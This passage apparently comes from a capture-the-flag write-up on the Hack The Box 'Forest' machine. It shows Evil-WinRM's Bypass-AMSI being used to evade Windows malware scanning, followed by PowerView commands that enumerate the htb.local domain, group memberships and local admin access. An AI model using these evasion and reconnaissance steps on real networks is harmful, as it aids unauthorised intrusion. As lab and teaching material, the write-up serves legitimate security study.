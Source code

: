 But before I uploaded my script, i can leverage on the `Bypass-AMSI` module to avoid any issues while uploading powershell script or Invoking them on the target system.

![image](https://gist.github.com/assets/58165365/45d4bef0-be4c-4587-9f75-5f979d8e43a5)

As that is successful, I proceeded to Import the PowerView module. When you run `menu` again, you will now access more modules that we'll explore shortly. 

![image](https://gist.github.com/assets/58165365/20228a80-342a-47ed-ae83-328f88d27061)

An exhaustive list of functions can be found here:

<iframe src="https://powersploit.readthedocs.io/en/latest/Recon/" width="100%" height="600px" style="border:none;"></iframe>


I've also done a [PowerView Walkthrough](https://05t3.github.io/posts/PowerView-Walkthrough/) blog before, so be sure to check it out 😎.


We can get information about the domain as follows:

```powershell
2024-05-14 15:27:54 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > Get-NetDomain
2024-05-14 15:27:55 +0300: 

Forest                  : htb.local
DomainControllers       : {FOREST.htb.local}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : FOREST.htb.local
RidRoleOwner            : FOREST.htb.local
InfrastructureRoleOwner : FOREST.htb.local
Name                    : htb.local
```

If you want to get all the groups a user is a member of


```powershell
2024-05-14 15:31:53 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > Get-DomainGroup -MemberIdentity svc-alfresco | select samaccountname
2024-05-14 15:31:57 +0300: 
samaccountname
--------------
Service Accounts
Privileged IT Accounts
Domain Users
```

To check if the current user context has local administrator access


```powershell
2024-05-14 15:32:24 +0300: *Evil-WinRM* PS C:\Users\svc-alfresco\Documents > Invoke-CheckLocalAdminAccess
2024-05-14 15:32:26 +0300: 
ComputerName IsAdmin
------------ -------
localhost      False
```
